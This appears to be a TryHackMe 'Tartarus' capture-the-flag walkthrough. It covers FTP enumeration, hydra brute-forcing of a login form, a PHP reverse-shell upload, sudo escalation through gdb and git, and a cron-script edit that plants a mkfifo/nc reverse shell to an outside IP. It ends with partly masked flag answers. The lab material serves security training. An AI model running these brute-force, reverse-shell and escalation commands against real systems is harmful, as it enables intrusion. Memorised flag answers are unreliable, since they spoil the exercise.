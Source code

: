 # TryHackMe Tartarus

**This is an beginner box based on simple enumeration of services and basic privilege escalation techniques. Based jake**

## Task-1 Tartarus

* *Enumeration* - Doing nmap scan gave us 21,22,80 port open. 

* *Port -21* : FTP allowed us anonymous login. So typing command '*ftp IP*' and then 'anonymous' as name and password gave us a successful login. After that we can see a file named 'test.txt' and a directory '...' in the FTP shell. Get the .txt file on your shell using command '*get test.txt*'. Now go to '...' directory. It again gave a same named directory. Again going into that gave us another file named 'yougotgoodeyes.txt'. Get this file on your shell.

* Now see the content of test file. It just gave us 'vsftpd test file'. Now see for yougotgoodeyes.txt and it gives us a directory. Now we shall go on browser.

* *Port -80* : Open the link in browser. It gaves a default Apache2 page. On trying 'robots.txt' on the site gave us another directory along with a username : 'd4rckh'.

* Going on the above directory gave us two files 'credentials.txt' and 'userid'. Get these files on your machine using wget. 

* Also from FTP we got a directory. Opening that gave us a login page. So we have a list of usernames, password and a login page. Simple idea is to use hydra for password cracking. 

* Type the command ' *hydra -L userid -P credentials.txt IP http-post-form "/directoryWhihcWeGotFromFTP/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!* '.  This will give username. 

* Now to crack password we will use command ' *hydra -l <userFromAboveResult> -P credentials.txt IP http-post-form "/directoryWhihcWeGotFromFTP/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!* '. This will give us our password.

* Now login into the site using these creds. After that it gives us a uploading file option. We can upload our php reverse shell there. After uploading that start you nc listener. After that go to /<directoryWhihcWeGotFromFTP>/images/uploads/phpRevShell.php and you will get your shell.

* After logging into the shell we can see that we are 'www-data'. Go to '/home'	to see the list of users. Now type 'sudo -l' and we see that a user 'thirtytwo' can run gdb command. Now go to https://gtfobins.github.io/ to search for gdb sudo and we find one. Now type this command ' *sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex q* '. Now we are 'thirtytwo'.

* Again type 'sudo -l' and we see that 'd4rckh' can run git. Again go to https://gtfobins.github.io/ to search for git sudo. Now type ' *sudo -u d4rckh /usr/bin/git -p help config* ' and then type '!bash' to gain a bash shell. Now go to '/home/d4rckh'. In there we see a 'cleanup.py' file and 'user.txt' file  which is your user flag.

* We can edit this file to gain root shell. Also if you see '/etc/crontab' we can see that cleanup.py is running as a cronjob. Now edit .py file and type ' *os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.19.203 4444 >/tmp/f')* ' in the 'try' block and simultaneously start nc listener in other window. Wait for some time and your root shell will be spawned.

*  Now type ' *cat /root/root.txt* ' to gain root flag.

## 1. User Flag
Answer : 0f7dbb2243e692e3ad222b**********

## 2. Root Flag
Answer : 7e055812184a5fa5109d5d**********
